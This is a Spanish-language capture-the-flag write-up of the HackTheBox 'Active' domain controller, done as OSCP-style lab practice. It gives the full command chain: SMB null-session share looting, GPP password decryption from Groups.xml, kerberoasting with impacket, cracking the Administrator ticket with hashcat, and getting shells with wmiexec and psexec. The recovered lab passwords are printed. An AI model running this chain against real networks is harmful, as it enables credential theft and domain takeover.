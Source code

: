 ![1](Images/1.png)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![2](Images/2.png)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![3](Images/3.png)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![4](Images/4.png)

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

![5](Images/5.png)

Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![6](Images/6.png)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![7](Images/7.png)

active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![8](Images/8.png)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![9](Images/9.png)

Y si echamos un vistazo a Groups.xml : 

![11](Images/10.png)

Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![12](Images/12.png)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![13](Images/13.png)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![14](Images/14.png)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![15](Images/15.png)

Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``

-> Password: GPPstillStandingStrong2k18

![16](Images/16.png)

Ojo, tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![17](Images/17.png)

Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![18](Images/18.png)

Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![19](Images/19.png)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![20](Images/20.png)

Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![21](Images/21.png)

``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![22](Images/22.png)

Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![32](Images/23.png)

Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![24](Images/24.png)
